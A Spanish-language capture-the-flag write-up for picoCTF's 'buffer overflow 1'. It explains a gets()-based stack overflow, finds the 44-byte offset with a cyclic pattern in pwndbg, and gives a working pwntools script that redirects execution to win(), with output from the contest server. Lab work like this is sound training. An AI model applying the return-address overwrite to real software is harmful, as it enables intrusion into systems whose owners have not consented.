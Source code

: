 ```bash
file vuln
vuln: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID\[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

```bash
checksec --file=vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable	FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   76 Symbols	 No	0	3	vuln
```

```bash
./vuln
Please enter your string:
hola
Okay, time to return... Fingers Crossed... Jumping to 0x804932f
```

Este binario tiene una vulnerabilidad que permite desbordar el buffer ya que se utiliza en el código un `gets`, el cual es una función insegura que permite desbordar el buffer, consiguiendo sobrescribir elementos importantes del programa como los registros.

```c
void vuln() {
    char buf[BUFSIZE];
    gets(buf); // Función vulnerable
	printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}
```

El programa simplemente pide un string y nos informa de a qué dirección va a saltar el programa (EIP).

Para resolver el ejercicio podemos intentar hallar el offset hasta la dirección de retorno, y una vez lleguemos, mandar la dirección a la que queremos saltar. En este caso queremos saltar a la función `win`, la cual está diseñada para imprimir la flag.

```c
void win() {
    char buf[FLAGSIZE];
    FILE *f = fopen("flag.txt", "r");

    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                       "own debugging flag.\n");
        exit(0);
    }

    fgets(buf, FLAGSIZE, f);
    printf(buf);
}
```

Primero vamos a encontrar el offset:

1. Generamos un patrón

```bash
pwndbg> cyclic
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

2. Se lo mandamos al programa

```
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
```

3. Miramos qué valor ha tomado el EIP

```bash
EIP  0x6161616c ('laaa')
```

4. Buscamos el offset

```bash
pwndbg> cyclic -l laaa
Finding cyclic pattern of 4 bytes: b'laaa' (hex: 0x6c616161)
Found at offset 44
```

El offset es de **44 bytes**.

Ahora que sabemos el offset podemos hacer un script simple que mande después del offset la dirección de la función `win`.

```python
from pwn import *

exe = ELF("./vuln_patched")
context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("DIRECCION", IP)
    return r

def main():
    r = conn()
    padding = 44
    payload = flat({
        padding: [
            exe.symbols.win
        ]
    })
    r.sendline(payload)
    r.interactive()

if __name__ == "__main__":
    main()

```

```bash
python solve.py     
[*] '/home/ub1cu0/Desktop/picoCTF/buffer_overflow_1/vuln_patched'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Opening connection to saturn.picoctf.net on port 61001: Done
[*] Switching to interactive mode
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{SECRETO}
[*] Got EOF while reading in interactive
```
